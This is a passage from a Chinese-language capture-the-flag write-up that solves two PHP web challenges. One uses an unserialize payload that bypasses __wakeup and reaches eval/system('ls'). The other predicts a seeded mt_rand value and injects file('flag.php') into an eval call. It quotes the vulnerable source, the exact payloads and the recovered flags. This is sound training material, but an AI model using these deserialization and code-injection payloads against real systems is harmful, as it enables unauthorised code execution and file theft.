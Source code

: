```php
class convent{
	var $warn = "No hacker.";
	function __destruct(){
		eval($this->warn);
	}
	function __wakeup(){
		foreach(get_object_vars($this) as $k => $v) {
			$this->$k = null;
		}
	}
}
$cmd = $_POST[cmd];
unserialize($cmd);
?>
```
由user.php可知，本题是php反序列化绕过__wakeup然后命令执行。构造playload“cmd=O:7:"convent":2:{s:4:"warn";s:13:"system('ls');";}”post到user.php得到web根目录下所有文件
```
dsuhhjfdgjhaskjdkj.txt
index.php
show.php
user.php
```
访问“dsuhhjfdgjhaskjdkj.txt”得到flag
```
flag{qishinizhixuyaocaidaozhegewenjiandemingzijiuxingle}
```

<br/>

#### random(200)

> http://120.55.43.255:27189

打开题目连接得到网页源码
```php
 <?php
    show_source(__FILE__);
    include "flag.php";
    $a = @$_REQUEST['hello'];
    $seed = @$_REQUEST['seed'];
    $key = @$_REQUEST['key'];
    
    mt_srand($seed);
    $true_key = mt_rand();
    if ($key == $true_key){
        echo "Key Confirm";
    }
    else{
        die("Key Error");
    }
    eval( "var_dump($a);");
?>
```
预测随机数然后代码执行，“/?seed=1&key=1244335972&hello=file("flag.php")”得到flag
```
flag{Y0u_Solv3_s4mpl3...oNc3_Mor3}
```
